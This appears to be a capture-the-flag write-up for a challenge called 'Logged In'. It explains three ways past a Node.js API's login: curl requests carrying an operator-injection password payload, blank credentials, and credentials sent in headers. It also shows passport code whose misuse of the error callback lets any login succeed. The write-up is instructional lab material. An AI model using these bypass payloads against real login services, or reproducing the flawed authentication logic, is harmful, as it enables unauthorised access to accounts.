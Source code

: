 # Logged In
*It looks like COViD's mobile application is connecting to this API! Fortunately, our agents stole part of the source code. Can you find a way to log in?*

*[API Server](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41061/)*

## Solution 1 (Web) (Unintended?)
### Analysing the Challenge
1. We are given the source of the challenge, and unzipping it to take a look we can find that inside contains a partial source for the API Server.
2. Looking at the handlers and middlewares of the program, we notice that there is validator which checks for the presence of the username and password field.  
![](image0.png)  
3. In helpers, there is a password generator (`generatePassword.js`) and a login checker (`initLocalStrategy.js`) that checks the password which is stored in a sequalise ORM-wrapped MariaDB server, in which the `username` field is passed in directly (this is crucial to the attack)  
![](image1.png)
![](image2.png)  
4. After inspecting the main program (`app.js`), we do realise that the server accepts JSON data input as a payload.
5. Hence, we could conclude that the injection vector would be to perform a SQL injection by taking advantage of the JSON payload and parsing by the server.

### The Attack
- To know which endpoint we are going to check out, we look in the routes folder and the `api.js` file.
- The endpoint is named `/api/login`, and passes through the middlewares as described above.
- We also take note of the username required to pass the check to obtain the password, in this case is `gru_felonius`.
- We simply need to craft a malicious payload and submit it to the server via a POST request.
- Command: `curl -X POST http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41061/api/login -H "Content-Type: application/json" -d '{"username": "gru_felonius", "password": {"$gt": 0}}'`

(Do note the injection of an object payload to compare the password in order to obtain the "hashed" password of `gru_felonius` from the database)

### Flag!
```govtech-csg{m!sS1nG_cR3DeN+!@1s}```

## Solution 2 (Web)
### Look again!
- Upon getting the flag for the challenge, looking at the flag we see that our solution was unintended (the intended solution was linked to missing credentials)
- So what if we tried the request again but this time with a blank username and password?

### Volia!
- Submit the request again using the command: `curl -X POST http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41061/api/login -H "Content-Type: application/json" -d '{"username": "", "password": ""}'`
- It works!

**Hmmm... why does it work?**

- Let's look at the source code again, we know that the login endpoint is `/api/login` from above, and it checks for the existence of the `username` and `password` fields in several areas (such as `req.body`, `req.headers`)

- This information is then passed onto many callback functions including a `localAuthenticator` callback function:

- ```javascript
  //api.js
  
  router.post('/login', loginValidator, sendValidationErrors, localAuthenticator, function (req, res) {
    res.json({ "flagOne": process.env.FLAG_ONE, "encryptedFlagTwo": encryptFlag(process.env.FLAG_TWO) })
  });
  ```

- Looking at `localAuthenticator`:

- ```javascript
  //authenticator.js
  
  var passport = require('passport')
  
  function localAuthenticator(req, res, next) {
      passport.authenticate('local', { session: false }, function (err, user, info) {
          if (err) {
              return res.status(401).json({
                  "error": err.message
              });
          }
          next();
      })(req, res, next)
  }
  
  module.exports = {
      localAuthenticator,
  }
  ```

- It seems like the application is using the `passport` library for authentication. Let's take a look at the **localStrategy (Configuration)** of `passport`, which is used to check whether the credentials are correct:

- ```javascript
  //initLocalStrategy.js
  
      passport.use(new LocalStrategy(
          async function (username, password, done) {
              const user = await User.findOne({ where: { username } });
              if (user !== null && bcrypt.compareSync(password, user.password)) {
                  if (user.username === 'gru_felonius' && bcrypt.compareSync(password, user.password)) {
                      return done(null, user);
                  }
                  return done(new Error('Only Gru is allowed!'));
              }
              return done(new Error('Invalid credentials'));
          }
      ));
  ```

- Now when reading through the documentation for the localStrategy, one particular paragraph caught our attention regarding the `return` statements which tell `authenticate` whether the login was successful:

- ```
  Note that it is important to distinguish the two failure cases that can occur. The latter is a server exception, in which err is set to a non-null value. Authentication failures are natural conditions, in which the server is operating normally. Ensure that err remains null, and use the final argument to pass additional details.
  ```

- In this case, `new Error('Invalid credentials')` is clearly a **non-null value**, the correct way to raise an error should have been something like `return done(null, false, { message: 'Invalid credentials' });`

- Hence, since the return is **always a non-null value**, **anything passed as the password and username** (as long as they are set), will always **result in a login and give us the flag**

Flag: ```govtech-csg{m!sS1nG_cR3DeN+!@1s}```

## Solution 3 (Mobile)
### Interesting mobile challenge
- After attempting the mobile challenge Network?, we see that there is an interesting part of the decompiled Java source code for that activity.
```java
public String f2943e = "yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg";

public String f2944f = "41061";

public String f2945g = ("http://" + this.f2943e + ":" + this.f2944f + "/api/login");
```
*(`sg.gov.tech.ctf.mobile.Admin.NetworkActivity.java`)*
- The decompiled source code indicates that the result of a web request made to the same API server in this challenge is outputted to log.
```java
Log.v("rht", "SERVER REPLIED:");
for (String line : response) {
  Log.v("rht", "Line : " + line);
}
```
*(`sg.gov.tech.ctf.mobile.Admin.NetworkActivity.java`)*
- However, instead of listening and getting the information using `logcat` on Android, we decided to take another approach that is more related to web.

### Packets? Packets!
- It is common knowledge that making a network request over the Internet will lead to packets being sent from the client to server and vice-versa.
- We will capture the packets sent to the server on Android using a tool called "Packet Capture"
- After downloading the application, we start listening for packets from the KoroVax application login page.
![](image3.jpg)

### Head of headers
- Upon going to the login page in the mobile application, we see that there are packets successfully captured.  
![](image4.jpg)  
- The flag of our challenge is also found within the packet capture, ```govtech-csg{m!sS1nG_cR3DeN+!@1s}```  
![](image5.jpg)  
- Looking at the request, we see that there are some interesting headers being sent, notably the `username` and `password` header.
- This likely means that the mobile application is able to pass the authentication through these headers, and we verify our hypothesis by make a similar request with random data.
- Command: `curl -X POST http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41061/api/login -H "username: GOVTECH" -H "password: CSG"`
- Not to our surpise, it worked!

Flag: ```govtech-csg{m!sS1nG_cR3DeN+!@1s}```

## Learning objectives
After this challenge, we have gotten a few learning points:
- Always look at challenges from different angles, such as this challenge which had multiple solutions and even unintended solutions.
- Sometimes, the developer might not have noticed that there would be more than one way to gain access to the program
- Don't be afraid to try multiple different ways, as you might never know which would work!